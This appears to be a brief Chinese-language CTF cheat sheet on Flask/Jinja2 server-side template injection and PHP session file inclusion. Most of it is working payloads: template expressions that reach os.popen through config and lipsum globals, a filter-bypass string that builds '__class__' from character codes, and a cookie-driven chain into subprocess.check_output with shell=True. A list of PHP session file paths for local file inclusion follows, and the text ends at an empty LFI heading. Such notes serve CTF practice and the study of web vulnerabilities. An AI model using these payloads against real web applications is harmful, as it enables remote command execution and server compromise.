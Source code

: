 ```
request.args.x1
  get传参
request.values.x1
  所有参数
request.cookies
  cookies参数
request.headers
  请求头参数
request.form.x1
  post传参(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
request.data
  post传参(Content-Type:a/b)
request.json
  post传json(Content-Type:application/json)
config
  当前application的所有配置。此外，也可以{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```



```python
# " [] _ 
{%25print(''|attr('%25c%25c%25c%25c%25c%25c%25c%25c%25c'|format(95,95,99,108,97,115,115,95,95)))%25}


{{lipsum.__globals__.__builtins__['__import__']('os').popen('ls').read()}}


#request
{{request[request.cookies['a']][request.cookies['b']][request.cookies['c']][request.cookies['d']][request.cookies['e']][request.cookies['f']]('subprocess')[request.cookies['g']](request.cookies['h'],shell=True)}}
# cookie 传入 "a": "__class__"_ "b": "_get_file_stream"_ "c": "im_func"_ "d": "func_globals"_ _ _ _"e": "__builtins__""f": "__import__""g": "check_output""h": cmd

```

## session文件包含
session 基础知识

可通过phpinfo查看session.save_path的值

```
/var/lib/php/sess_PHPSESSID
/var/lib/php/sessions/sess_PHPSESSID
/xxx/tmp/sess_PHPSESSID
/xxxx/tmp/sessions/sess_PHPSESSID
```

文件名格式为`sess_[phpsessid]`。而phpsessid来源于请求的cookie字段。


# LFI

